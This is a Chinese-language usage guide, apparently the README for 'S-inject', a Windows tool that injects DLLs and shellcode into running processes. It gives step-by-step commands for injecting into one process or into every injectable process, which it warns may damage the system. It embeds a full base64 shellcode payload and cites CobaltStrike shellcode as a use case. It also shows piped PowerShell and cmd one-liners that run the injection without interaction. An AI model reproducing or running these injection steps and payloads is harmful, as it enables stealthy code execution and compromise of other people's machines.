


# 1.x版本使用步骤

非交互式终端使用管道传参

- 注意cmd和powershell的区别
- 注意cmd字符串超过80个会自动换行，推荐搭配powershell

## 一般步骤

1. 运行程序
2. 输入7，遍历出能被注入的进程的pid
3. 选择你的注入方式

## DLL自动注入/遍历注入

- 自动注入

  DLL注入的功能中输入让`pid=0`，如果遇到一个能够被注入的进程那么就会注入，成功注入可能性低

  

- 暴力注入- **可能对系统造成损害**

  `S-inject.exe <任意值>`，确保启动参数`argc`等于2

  DLL注入的功能中输入让`pid=0`

  程序遍历所有可被注入程序，对每一个能被注入的进程进行DLL注入

  

## Shellcode注入

这里以64为windows10版本Calc shellcode位例子(虽然会崩溃)
shellcode来源：https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode
base64编码后shellcode

```c
SDH/SPfnZUiLWGBIi1sYSItbIEiLG0iLG0iLWyBJidiLWzxMAcNIMclmgcH/iEjB6QiLFAtMAcJNMdJEi1IcTQHCTTHbRItaIE0Bw00x5ESLYiRNAcTrMltZSDHASIniUUiLDCRIMf9BizyDTAHHSInW86Z0BUj/wOvmWWZBiwREQYsEgkwBwFPDSDHJgMEHSLgPqJaRuoeanEj30EjB6AhQUeiw////SYnGSDHJSPfhUEi4nJ6TnNGah5pI99BQSInhSP/CSIPsIEH/1g==
```


以CobaltStrike Shellcode为例子


### 关于使用不可交互终端

可以参考 DLL注入：B, 不可交互终端 部分，尝试利用管道加载

```powershell
#cmd
(echo <option> <base64 Shellcode>) | <S-inject Path>

#powershell
echo "<option index>`n`<pid>`n`<base64 Shellcode>" | <S-inject Path>

#(echo 4`n`16900`n`SDH/SPfnZUiLWGBIi1sYSItbIEiLG0iLG0iLWyBJidiLWzxMAcNIMclmgcH/iEjB6QiLFAtMAcJNMdJEi1IcTQHCTTHbRItaIE0Bw00x5ESLYiRNAcTrMltZSDHASIniUUiLDCRIMf9BizyDTAHHSInW86Z0BUj/wOvmWWZBiwREQYsEgkwBwFPDSDHJgMEHSLgPqJaRuoeanEj30EjB6AhQUeiw////SYnGSDHJSPfhUEi4nJ6TnNGah5pI99BQSInhSP/CSIPsIEH/1g==) |  D:\Github\S-inject\x64\Release\S-inject.exe
```



## DLL注入

### A, 可交互终端

直接在终端中启动，根据菜单选择功能即可，如枚举可注入进程


### B, 不可交互终端

因为作者不想增加代码量，单独增添没有必要的参数功能，可以利用管道解决该问题
以下示例使用的注入对象更新前的为`x32dbg`和`x64dbg`，因为一个软件有两个位数的版本，在`x96dbg`中可以选择位数，便于测试

**如远程线程DLL注入**

x64

- powershell

  ```powershell
  echo "<option index>`n`<DLL Path>`n`<PID>" | <S-inject Path>
  
  #echo "1`n`D:\Github\S-inject\Test Files\TestDll_x64.dll`n`20176" | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  

- cmd

  推荐使用powershell启动

  ```powershell
  powershell -c echo "<option index>`n`<DLL Path>`n`<PID>" | <S-inject Path>
  
  #powershell -c echo "1`n`D:\Github\S-inject\Test Files\TestDll_x64.dll`n`20176" | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  

  cmd.exe

  ```
  (echo <option> <DLL Path> &echo <PID>) | <S-inject Path>
  
  #(echo 1 D:\Github\S-inject\Test Files\TestDll_x64.dll &echo 22268) | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  


